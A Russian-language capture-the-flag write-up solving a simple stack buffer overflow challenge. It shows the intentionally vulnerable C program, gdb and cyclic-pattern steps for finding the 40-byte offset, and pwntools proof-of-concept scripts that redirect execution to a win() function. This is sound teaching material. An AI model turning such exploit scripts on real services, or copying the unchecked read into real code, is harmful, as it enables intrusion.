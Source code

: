 # WRITEUP.md

### Description

Самая простая таска на `jump` технику во фремовом стеке

### Solition


#### Step 1
Смотрим сорцы `app/main.c`:

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void win() {
  char* flag = getenv("FLAG");
  puts(flag);
}

void func() {
  char buffer[32];
  read(0, buffer, 128);
}

int main() {
  int a = 64;
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  func();
}
```

Видим, что флаг можно получить, вызвав функцию `win()`, но в программе она нигде не используется.  

При анализе функции `func()` обнаруживаем переполнение буфера (очевидное уязвимое место).  

Следовательно, если подменить **return address** в стеке на адрес `win()`, то при завершении `func()` управление перейдёт не обратно в `main()`, а в `win()`, что даст нам флаг.


### Step 2 (manual)

Нам потребутеся gdb-pwngdb, скрипт по установке [gdb_weaponize.sh](https://github.com/devopscoder331/utils/blob/master/gdb_weaponize.sh).

Запускам `gdb-pwndbg main`:

![](img/img1.png)

Вводим команды `info functions` и `break func`:

![](img/img2.png)

Стоим на начале функции func(), нам нужно дойти до инструкции `read@plt` , вводя `ni` видим как перемещаемся в стеке до `read@plt`


![](img/img3.png)


В таске потребуется выполнить 5 раз `ni`. Читаем на стек по адресу `0x7fffffffd900`, а `return address value` у нас `0x7fffffffd928`

![](img/img4.png)

Считаем кол-во байт сколько нужно отправить 40 байт + 8 байт адрес на который нужно прыгнуть.

### Step 2 (cyclic - De Bruijn sequence)

Высчитать нужное кол-во байт можно через последовательность Де Брейна, в `pwngdb` это команда `cyclic <bite>`. Набираем `cyclic 128`, получаем пейлод и набираем `r`:

![](img/img5.png)

Переходим в начало функции `func()`, выполняем `continue`, вставлеяем пейлод `aaaaaaaabaa....`

![](img/img6.png)

Получем переполнение буфера и видим на какой адрес совершается прыжок `0x4011a0 <func+32>  ret  <0x6161616161616166>`.

![](img/img7.png)

Выполняем `cyclic -l 0x6161616161616166` и получем `offset 40`, то есть нам нужно 40 байт, после чего перезаписываем `return address value`

### Step 3 (POC)

Пишем POC для локального запуска `FLAG="flag{simple_jump}" python3 poc_local.py`:

![](img/img8.png)

```py
from pwn import *

p = process('../app/main')
payload = b'A'*40+p64(0x0000000000401156)
p.sendline(payload)
p.interactive()
```


И для сетевого взаимодействия `python3 poc_network.py`:

```py
from pwn import *

#context.log_level = 'debug' # debug mode

p = remote('0.0.0.0', 9000)
payload = (b'A'*40+p64(0x0000000000401156))
p.sendline(payload)

response = p.recvall() 
print(response.decode())
```

![](img/img9.png)